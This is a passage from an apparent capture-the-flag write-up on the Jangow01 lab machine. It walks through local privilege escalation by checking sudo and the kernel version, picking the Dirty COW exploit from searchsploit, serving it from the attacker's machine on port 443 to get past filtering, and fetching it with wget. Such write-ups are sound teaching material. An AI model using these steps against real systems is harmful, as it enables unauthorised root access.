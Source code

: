 
## Root Flag

Since we have `jangow01`'s password, lets quickly check if we can run `sudo`

```bash
jangow01@jangow01:~$ sudo -l
sudo: não foi possível resolver máquina jangow01: Conexão recusada
[sudo] senha para jangow01:
Sinto muito, usuário jangow01 não pode executar sudo em jangow01.
```

Unfortunetly, it appears we are unable to. Perhaps a quick check of the kernel and distribution version might reveal a quick win.

```bash
jangow01@jangow01:~$ uname -a
Linux jangow01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
jangow01@jangow01:~$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 16.04.1 LTS
Release:        16.04
Codename:       xenial
```

It looks like we might be able to exploit the kernel using `dirty cow`, based on the old distrobution release. `searchsploit` contains a `dirty cow` exploit that I have previously found reliable in the past.

```bash
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passw | linux/local/40839.c
```

We can stang up a web server on our machine using `sudo python -m http.server 443` and use `wget` to download the file. The exploit can be copied from `searchsploit` by running `searchsploit -m 40839`. Note, we have to use port `443` as this port is not blocked.

```
jangow01@jangow01:~$ wget http://192.168.1.73:443/40839.c
--2021-12-21 19:49:37--  http://192.168.1.73:443/40839.c
Conectando-se a 192.168.1.73:443... conectado.
A requisição HTTP foi enviada, aguardando resposta... 200 OK
Tamanho: 4814 (4K) [text/x-csrc]
Salvando em: “40839.c”

40839.c             100%[===================>]  4,70K  --.-KB/s    in 0s

2021-12-21 19:49:37 (70,7 MB/s) - “40839.c” salvo [4814/4814]
```

Now we can compile the exploit and give it a try. For some reason, it appeared the exploit did hang, however if we could just break-out of the command using `CTRL-Z` and still check if it was successful.
